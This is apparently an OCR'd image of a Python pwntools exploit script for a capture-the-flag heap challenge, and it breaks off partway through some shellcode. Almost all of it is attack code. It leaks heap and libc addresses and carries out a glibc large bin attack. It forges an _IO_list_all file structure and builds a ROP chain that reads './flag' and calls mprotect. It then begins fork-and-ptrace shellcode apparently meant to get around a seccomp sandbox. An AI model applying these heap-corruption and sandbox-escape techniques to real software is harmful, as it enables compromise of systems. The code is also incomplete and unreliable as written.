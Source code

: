 ```python
add(2, 0x508)
add(3, 0x518)
add(4, 0x528)
delete(2)
delete(3)
show(3)

heapbase =u64(p.recv(6).ljust(8, b'\x00'))- 0x290
add(2, 0x508)
add(3, 0x518)

print(libcbase)
print(hex(heapbase))

#-------------------------------large bin attack---------------------------------
add(5, 0x558)
add(6, 0x558)
add(7, 0x548)
add(8, 0x548)

delete(5)
add(9, 0x598)
delete(7)
io_list_all = libcbase + libc.sym['_IO_list_all']
wfile = libcbase + libc.sym['_IO_wfile_jumps']
lock = 0x3ed8b0 + libcbase
pop_rdi = libcbase + next(libc.search(asm('pop rdi;ret;')))
pop_rsi = libcbase + next(libc.search(asm('pop rsi;ret;')))
rsi_r15 = libcbase + 0x0000000000023b63
pop_rax = libcbase + 0x3fa43
pop_rdx = libcbase + 0x166262
ret = libcbase + 0x233d1

leave_ret = libcbase + next(libc.search(asm('leave;ret;')))
read_addr = libc.symbols['read'] + libcbase
magic_gadget = libcbase + 0x163090 + 0x1a
syscall = read_addr + 15

fake_io_addr = heapbase + 0x16E0
orw_addr = heapbase + 0x2740
orw = b'./flag\x00\x00'
orw += p64(rsi_r15) + p64(0) + p64(fake_io_addr - 0x10 + 0x40)
orw += p64(pop_rsi) + p64(0x2000)
orw += p64(pop_rdi) + p64(heapbase)
orw += p64(pop_rdx) + p64(7)
orw += p64(pop_rax) + p64(10)
orw += p64(syscall)
orw += p64(ret) + p64(heapbase + 0x2a0)
mprotect = libcbase + libc.sym['mprotect']

PTRACE_ATTACH = 0x10
PTRACE_SETOPTIONS = 0x4200
PTRACE_CONT = 7
PTRACE_DETACH = 0x11
PTRACE_O_TRACESECCOMP = 0x80

shellcode = shellcraft.fork()
shellcode += '''
        test eax,eax
        js exit
        /*把child_pid的值存到r15寄存器*/
        mov r15,rax

```